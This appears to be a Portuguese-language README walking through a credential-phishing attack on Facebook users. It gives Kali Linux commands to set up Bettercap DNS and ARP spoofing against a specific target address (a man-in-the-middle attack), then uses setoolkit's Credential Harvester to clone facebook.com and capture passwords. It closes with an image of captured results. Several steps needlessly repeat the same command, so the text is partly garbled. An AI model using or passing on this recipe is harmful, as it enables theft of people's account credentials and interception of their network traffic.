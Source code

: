 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux (Sistema Operacional)
- setoolkit (ferramenta para captura dos dados - nativo do Kali Linux)
- Bettercap (ferramenta para mascarar URL com DNS spoof)

### Atualização e instalação de ferramentas no Kali Linux

- Passo 1 - Acesso root: ``` sudo su ```
- Passo 2 - Atualizando sistema operacional e repositórios: ``` apt update && sudo apt upgrade -y ```
- Passo 3 - Instalando o Bettercap: ``` apt install bettercap -y ```

### Configurando o DNS spoof no Bettercap

- Passo 1 - Verificando qual o nome da interface de rede: ``` ip a ```
- Passo 2 - Obtendo o endereço da máquina: ``` ifconfig ```
- Passo 3 - Executando o Bettercap no modo interativo: ``` bettercap -iface eth0 ```
- Passo 4 - Definindo o domínio a ser redirecionado: ``` set dns.spoof.domains http://face.book.com ```
- Passo 5 - Definindo o endereço de acesso da página: ``` set dns.spoof.address 192.168.1.13 ```
- Passo 6 - Ativando o DNS spoof: ``` dns.spoof on ```
- Passo 7 - Definindo o alvo do spoofing: ``` set arp.spoof.targets 192.168.1.11 ```
- Passo 8 - Ativando spoofing ARP (ataque MITM): ``` arp.spoof on ```
- Passo 9 - ``` arp.spoof on ```
- Passo 10 - ``` arp.spoof on ```
- Passo 11 - ``` arp.spoof on ```
- Passo 12 - ``` arp.spoof on ```

### Configurando o Phishing no setoolkit

- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` 1) Social-Engineering Attacks ```
- Vetor de ataque: ``` 2) Web Site Attack Vectors ```
- Método de ataque: ``` 3) Credential Harvester Attack Method ```
- Método de ataque: ``` 2) Site Cloner ```
- URL para clone: http://www.facebook.com

### Resultados

![Alt text](./passwd.png "Optional title")
